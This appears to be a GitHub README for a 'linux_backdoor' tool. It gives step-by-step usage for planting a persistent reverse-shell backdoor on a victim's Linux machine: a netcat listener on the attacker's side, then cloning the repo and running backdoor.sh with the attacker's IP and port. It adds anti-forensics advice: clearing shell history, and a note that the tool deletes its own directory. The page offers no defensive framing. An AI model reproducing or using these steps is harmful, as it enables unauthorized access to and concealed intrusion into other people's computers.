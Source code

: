 # linux_backdoor

![toy-train-removebg-preview](https://user-images.githubusercontent.com/115974774/203227151-e199c991-b586-49ca-9dec-8fabd897b842.png)


Usage : 

  ~ Attacker's PC ~
   
   $ nc -lvnp 443
   
  ~ Victim's PC ~

  $ git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  $ cd linux_backdoor
  
  $ chmod +x *
  
  $ bash backdoor.sh (Attacker IP) (Port)
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)


  Clearing Tracks :
  
   ~ Victim's PC ~
  
  $ history -c

  
  Note :

=================================================================================================================
|  You have to keep netcat listner(nc -lvnp 443) started whenever the victim's PC is on so you will get access  |
=================================================================================================================
  
===================================================================================================================  
|  Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's PC. |
===================================================================================================================
